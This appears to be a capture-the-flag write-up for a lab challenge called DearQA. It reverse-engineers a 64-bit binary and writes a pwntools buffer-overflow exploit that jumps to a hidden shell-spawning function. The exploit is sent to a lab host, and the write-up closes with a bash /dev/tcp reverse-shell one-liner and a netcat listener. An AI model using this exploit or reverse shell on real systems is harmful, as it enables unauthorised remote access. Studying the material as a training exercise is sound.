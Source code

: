 ### Task 1

#### Analyze the binary offline.

`rabin2 -I DearQA.DearQA`

### Task 2

#### What is the binary architecture ?

It's an ELF-64 binary.

#### What is the flag ?

Start by scanning the machine :

`nmap -v -p 5700 10.10.76.213`
> PORT     STATE SERVICE
> 
> 5700/tcp open  supportassist
> 
> MAC Address: 02:4B:83:7C:26:87 (Unknown)

Add -sV to see the version :
`nmap -v -p 5700 -sV 10.10.76.213`

Try also `nmap -v -p 5700 -A 10.10.76.213`

In the output : "x86_64-pc-linux-gnu" => x64

`rabin2 -i DearQA.DearQA`
> [Imports]
> 
> nth vaddr      bind   type   lib name
> 
> -------------------------------------
> 
> 1   0x00400520 GLOBAL FUNC       puts
> 
> 2   0x00400530 GLOBAL FUNC       printf
> 
> 3   0x00400540 GLOBAL FUNC       \_\_libc_start_main
> 
> 4   0x00400550 GLOBAL FUNC       execve
> 
> 5   0x00400560 WEAK   NOTYPE     \_\_gmon_start__
> 
> 6   0x00400570 GLOBAL FUNC       fflush
> 
> 7   0x00400580 GLOBAL FUNC       \_\_isoc99_scanf

`rabin2 -z DearQA.DearQA`
> [Strings]
> 
> nth paddr      vaddr      len size section type  string
> 
> -------------------------------------------------------
> 
> 0   0x000007b8 0x004007b8 16  17   .rodata ascii Congratulations!
> 
> 1   0x000007d0 0x004007d0 40  41   .rodata ascii You have entered in the secret function!
> 
> 2   0x000007f9 0x004007f9 9   10   .rodata ascii /bin/bash

In Radare2 web, we can also see the strings in the tab "STR" :
> 0x4007b8 17 16 Congratulations!
> 
> 0x4007d0 41 40 You have entered in the secret function!
> 
> 0x4007f9 10 9 /bin/bash

In the tab "SYM", we can see this function (?) : 0x00400686 61 vuln

`r2 -A dearQA.dearQA`

`[0x00400590]> sf sym.vuln`

`[0x00400686]> pdf`

> / 61: sym.vuln ();
> 
> |           **0x00400686**      55             push rbp
> 
> |           0x00400687      4889e5         mov rbp, rsp
> 
> |           0x0040068a      bfb8074000     mov edi, str.Congratulations_ ; 0x4007b8 ; **"Congratulations!"** ; const char \*s
> 
> |           0x0040068f      e88cfeffff     call sym.imp.puts           ; int puts(const char \*s)
> 
> |           0x00400694      bfd0074000     mov edi, str.You_have_entered_in_the_secret_function_ ; 0x4007d0 ; **"You have entered in the secret function!"** ; const char \*s
> 
> |           0x00400699      e882feffff     call sym.imp.puts           ; int puts(const char \*s)
> 
> |           0x0040069e      488b056b0520.  mov rax, qword [obj.stdout] ; obj.stdout__GLIBC_2.2.5
> 
> |                                                                      ; [0x600c10:8]=0
> 
> |           0x004006a5      4889c7         mov rdi, rax                ; FILE \*stream
> 
> |           0x004006a8      e8c3feffff     call sym.imp.fflush         ; int fflush(FILE \*stream)
> 
> |           0x004006ad      ba00000000     mov edx, 0
> 
> |           0x004006b2      be00000000     mov esi, 0
> 
> |           0x004006b7      bff9074000     mov edi, str.\_bin_bash      ; 0x4007f9 ; **"/bin/bash"**
> 
> |           0x004006bc      e88ffeffff     call sym.imp.execve
> 
> |           0x004006c1      5d             pop rbp
> 
> \           0x004006c2      c3             ret

We want to create a buffer overflow to redirect the instruction pointer to the start of function `vuln` = 0x00400686.

First, use cyclic to find the length necessary to erase the instruction pointer :
`cyclic 100 > cyclic_100`

`gdb dearQA.dearQA`

`r < cyclic_100`

> Program received signal SIGSEGV, Segmentation fault.
> 
> 0x000000000040072f in main ()

`info registers`

> Register RSP = 0x0007ffffffffddb8 and contains is erased by "0x6161616161616166".

Python script to create our payload :
`from pwn import *`

`padding = cyclic(cyclic_find('0x6161616161616166')) # create a padding with the right size.`

`eip = p64(0x00400686)	# to override the IP with address 0x00400686`

`payload = padding + eip # the payload`

`print(payload)`

`python create_payload.py > payload`

Our payload is ready.

Note that cyclic_find('0x6161616161616166') is 40 byte long. We can also deduce the size required for padding by analyzing the beginning of function main :
`main proc near`

`var_20= byte ptr -20h`

`push    rbp 		; rbp is an 8-byte register, so rsp-=8`

`mov     rbp, rsp`

`sub     rsp, 20h	; rsp -= 0x20`

8 + 0x20 = 8+ 32 = 40 added to the stack.

Next, connect to the remote machine/service and deliver the payload :
`from pwn import *`

`connect = remote('10.10.220.178', 5700)`

`connect.recvuntil(b"What's your name: ")`

`padding = cyclic(cyclic_find('0x6161616161616166')) # create a padding with the right size.`

`print(padding)`

`payload = padding + p64(0x00400686)`

`connect.sendline(payload)`

`connect.interactive()`

On the AttackBox : `nc -nlvp 1234`

> Listening on [0.0.0.0] (family 0, port 1234)> 

In the shell opened on the target machine :
`bash -c "bash -i >& /dev/tcp/#replace_with_attackbox_IP#/1234 0>&1"`

Back on the AttackBox :
> Listening on [0.0.0.0] (family 0, port 1234)
> 
> Connection from 10.10.220.178 60654 received!
> 
> bash: cannot set terminal process group (448): Inappropriate ioctl for device
> 
> bash: no job control in this shell
 
`ctf@dearqa:/home/ctf$ whoami `

> ctf

`ctf@dearqa:/home/ctf$ ls`

> DearQA
> 
> dearqa.c
> 
> flag.txt

`ctf@dearqa:/home/ctf$ cat flag.txt`

> THM{PWN_1S_V3RY_E4SY}
